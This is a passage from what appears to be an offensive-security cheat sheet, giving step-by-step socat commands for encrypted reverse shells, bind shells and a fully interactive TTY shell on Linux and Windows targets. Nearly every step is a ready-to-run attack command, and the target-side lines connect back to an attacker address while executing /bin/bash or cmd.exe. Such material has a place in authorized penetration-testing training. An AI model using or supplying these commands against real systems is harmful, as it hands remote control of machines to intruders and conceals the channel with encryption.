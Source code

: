 
### **Step 2: Encrypted Reverse Shell**

1. **Set Up the Listener (Attacker Machine):**
   ```bash
   socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
   ```
   - `OPENSSL-LISTEN`: Specifies encrypted listening.
   - `cert=shell.pem`: Uses the generated `.pem` file.
   - `verify=0`: Disables certificate validation (not recommended for production).

2. **Connect Back from Target (Linux):**
   ```bash
   socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
   ```

   **For Windows Target:**
   ```bash
   socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:cmd.exe,pipes
   ```
   - `pipes`: Handles Windows CLI input/output correctly.

---

### **Step 3: Encrypted Bind Shell**

1. **Set Up the Listener (Target Machine):**
   - **Linux Target:**
     ```bash
     socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:/bin/bash
     ```
   - **Windows Target:**
     ```bash
     socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
     ```

2. **Connect to the Listener (Attacker Machine):**
   ```bash
   socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
   ```

---

### **Step 4: Fully Stable Encrypted TTY Shell**
For a fully interactive and stable Linux shell, combine the TTY stabilization technique with encryption.

1. **Set Up the Listener (Attacker Machine):**
   ```bash
   socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 FILE:`tty`,raw,echo=0
   ```

2. **Connect Back from Target (Linux):**
   ```bash
   socat OPENSSL:<ATTACKER-IP>:<PORT>,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
   ```

---